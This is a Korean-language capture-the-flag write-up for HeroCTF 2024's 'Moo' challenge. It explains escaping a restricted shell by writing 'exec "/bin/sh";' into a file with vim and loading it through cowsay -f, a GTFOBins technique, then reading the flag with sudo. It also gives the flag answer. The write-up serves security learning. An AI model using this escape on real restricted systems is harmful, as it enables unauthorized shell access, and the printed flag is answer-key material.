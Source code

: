 ## CTF 정보
- CTF: HeroCTF 2024
- 문제 이름: Moo
- 점수: 50
- 난이도: easy

## Description
Just read the flag, it's all there.

Credentials: user:password

> Deploy on deploy.heroctf.fr

- Format : Hero{flag}
- Author : Log_s

## Solution
```bash
 ______________________________________________________
/ Welcome dear CTF player! You can read the flag with: \
\ /bin/sudo /bin/cat /flag.txt                         /
 ------------------------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

문제에 접속해보면 기존에 쉘에서 입력할 수 있는 명령어를 입력할 수가 없다. `PATH`를 확인해보면 `/usr/local/rbin`이 있는데, 이 경로에 있는 명령어를 확인해보면 사용할 수 있는 명령어가 제한적임을 알 수 있다.

```bash
user@moo:~$ echo $PATH
/usr/local/rbin
user@moo:~$ ls /usr/local/rbin
cowsay  dircolors  ls  rbash  vim
```

HeroCTF에서 다른 문제 롸업을 보는데 cowsay 명령어를 사용해서 플래그를 읽어오는 문제가 있었다. 
이 사이트에 쉘 명령어를 이용해서 권한을 우회하는 방법들이 있었다. 앞으로 참고하기 좋은 사이트인 것 같다.
> GTFOBins: https://gtfobins.github.io/gtfobins/cowsay/

```bash
TF=$(mktemp)
echo 'exec "/bin/sh";' >$TF
cowsay -f $TF x
```
이렇게 넣어보면 된다고 하는데 `mktemp` 명령어를 사용할 수 없어서 다른 방법이 필요하다.

```bash
$ echo 'exec "/bin/sh";' >file
bash: file: restricted: cannot redirect output
```

## Exploit Algorithm
```bash
user@moo:~$ vim a
exec "/bin/sh";
```

```bash
user@moo:~$ cowsay -f ./a x 
$ /bin/sudo /bin/cat /flag.txt
Hero{s0m3_s4cr3d_c0w}
```

vim과 cowsay 명령어를 사용할 수 있으므로 vim 명령어를 통해 쉘을 실행하는 문구를 넣고, 해당 파일을 cowsay 명령어를 통해 출력하도록 한다.


## Flag
`Hero{s0m3_s4cr3d_c0w}`